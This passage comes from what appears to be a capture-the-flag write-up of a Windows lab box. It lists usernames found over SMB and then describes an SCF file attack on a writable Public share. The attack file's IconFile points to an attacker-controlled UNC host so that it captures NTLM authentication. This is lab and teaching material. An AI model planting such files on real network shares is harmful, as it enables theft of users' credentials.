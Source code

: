 Checking the Users directory and I got some usernames from here.

```bash
smb: \> cd Users
smb: \Users\> ls
  .                                   D        0  Wed Jul 11 03:09:32 2018
  ..                                  D        0  Wed Jul 11 03:09:32 2018
  amanda                              D        0  Tue Jul  3 00:48:43 2018
  amanda_adm                          D        0  Tue Jul  3 00:49:06 2018
  bill                                D        0  Tue Jul  3 00:48:28 2018
  bob                                 D        0  Tue Jul  3 00:48:31 2018
  chris                               D        0  Tue Jul  3 00:49:14 2018
  henry                               D        0  Tue Jul  3 00:48:39 2018
  joe                                 D        0  Tue Jul  3 00:48:34 2018
  jose                                D        0  Tue Jul  3 00:48:53 2018
  lkys37en                            D        0  Wed Jul 11 03:09:04 2018
  morgan                              D        0  Tue Jul  3 00:48:48 2018
  mrb3n                               D        0  Tue Jul  3 00:49:20 2018
  Public                              D        0  Wed Sep 26 11:15:32 2018

		7779839 blocks of size 4096. 2558294 blocks available
```

After some enumeration, I found that we have write permission on `\Users\Public` and I PayloadsAllTheThings I found we can do SCF attack.

SCF (Shell Command Files) files can be used to access a specific UNC path (//) which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

```json
[Shell]
Command=2
IconFile=\\10.10.14.4\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

> [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Active Directory Attack.md#scf-and-url-file-attack-against-writeable-share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)

I created the .scf file and put that in Public directory.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sizzle/Untitled%201.png)